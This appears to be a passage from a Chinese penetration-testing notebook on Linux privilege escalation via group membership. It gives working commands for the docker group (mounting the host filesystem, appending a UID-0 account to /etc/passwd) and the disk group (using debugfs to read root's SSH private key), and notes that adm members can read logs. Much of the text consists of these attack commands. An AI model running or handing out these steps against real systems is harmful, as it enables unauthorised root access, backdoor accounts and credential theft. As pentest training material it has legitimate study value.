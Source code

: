 由于docker命令运行前都会默认添加sudo，所以docker组中的用户其实已经相当于root，我们可以使用docker命令直接获取权限

```
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

该命令通过将外部容器/挂载到内部容器/hostOS，从而获取root权限

```
docker run -v /root:/mnt -it ubuntu
```

该命令将/root目录作为系统卷启动，启动后可查看/etc/passwd等密钥，通过破解来获取root权限，也可以添加特权账号

```
openssl passwd -1 -salt name
```

来生成saltpasswd，按照格式插入到/etc/passwd即可切换用户

```
echo 'name:saltpasswd:0:0::/root:/bin/bash' >>passwd
```

##### Disk提权

将测试用户添加到disk组中，diks组中的用户可以完全访问/dev/中包含的任何设备和文件，我们可以利用debugfs中的root权限进行提权

```
ls -la /dev/sda1
debugfs /dev/sda1
cd /root 
cd .ssh
cat id_rsa
```

拿到root用户的密钥

![disk-key](E:\笔记软件\笔记\渗透测试\技术原理与分析\提权\disk-key.png)

之后遍可使用ssh远程登录

##### ADM提权

ADM组中的用户有权限读取/var/log,用于收集存储在日志文件中的敏感信息和定时任务，枚举用户操作等
